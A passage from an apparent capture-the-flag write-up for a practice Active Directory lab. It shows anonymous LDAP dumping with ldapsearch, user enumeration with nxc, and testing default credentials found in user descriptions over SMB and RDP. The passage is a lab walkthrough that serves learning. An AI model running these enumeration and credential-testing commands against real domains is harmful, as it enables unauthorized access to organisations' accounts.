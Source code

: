 ```
# numEntries: 1
```

Ldap anonymous enumeration works, let's dump full ldap scan:

```
ldapsearch -x -H ldap://10.10.148.131 -b "DC=thm,DC=local" > ldap_dump.txt
```

We get a ton of information on here, we can search for the users and many more information of the domain, since it would be a hassle to go through every user and copy it, we can use `nxc` to give us the users:

```
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users > users.txt
```

We got `487` domain users:

![](Pasted%20image%2020250623195453.png)

Interesting part on here is that two users have this description:


![](Pasted%20image%2020250623195543.png)

Let's begin exploitation.


# EXPLOITATION
---

We got two sets of possible credentials:

```
IVY_WILLIS:CHANGEME2023!
SUSANNA_MCKNIGHT:CHANGEME2023!
```

Let's test them with `nxc` again:

```
nxc smb labyrinth.thm.local -u 'IVY_WILLIS' -p 'CHANGEME2023!' 
nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' 
```


![](Pasted%20image%2020250623195817.png)

Both work for `smb`, `winrm` is not enabled on this machine but we got `rdp`, let's test for rdp then:

```
nxc rdp labyrinth.thm.local -u 'IVY_WILLIS' -p 'CHANGEME2023!' 
nxc rdp labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' 
```

![](Pasted%20image%2020250623195958.png)
